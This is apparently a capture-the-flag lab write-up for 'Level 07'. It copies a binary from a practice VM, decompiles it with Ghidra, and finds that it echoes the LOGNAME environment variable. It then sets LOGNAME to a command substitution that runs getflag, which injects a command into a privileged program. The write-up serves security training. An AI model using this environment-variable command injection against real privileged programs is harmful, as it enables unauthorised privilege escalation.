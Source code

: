 # Level 07

We'll get `level07` on our local machine to decomplie it with ***Ghidra***.
>`scp -P 4242 level07@<VM address>:level07 .`


The program executes `echo` with env variable `LOGNAME` as parameter. We'll overide this variable to get the flag.
>`export LOGNAME="$(getflag)"`

> `./level07`
